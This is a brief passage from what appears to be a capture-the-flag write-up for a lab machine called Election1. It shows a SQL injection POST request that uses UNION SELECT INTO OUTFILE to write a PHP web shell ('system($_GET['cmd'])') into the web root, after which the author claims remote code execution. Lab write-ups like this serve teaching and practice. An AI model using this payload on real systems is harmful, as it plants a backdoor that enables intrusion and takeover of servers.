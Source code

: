 ![](https://github.com/siunam321/CTF-Writeups/blob/main/Proving-Grounds-Play/Election1/images/a26.png)

**Wow!! We can! We can now write a PHP webshell into `/var/www/html`!**

**Complete POST request:**
```sql
aksi=fetch&id=1 UNION ALL SELECT NULL,NULL,NULL,NULL,"<?php system($_GET['cmd']) ?>" into outfile '/var/www/html/webshell.php'
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Proving-Grounds-Play/Election1/images/a27.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Proving-Grounds-Play/Election1/images/a28.png)

We now have RCE (Remote Code Execution)!
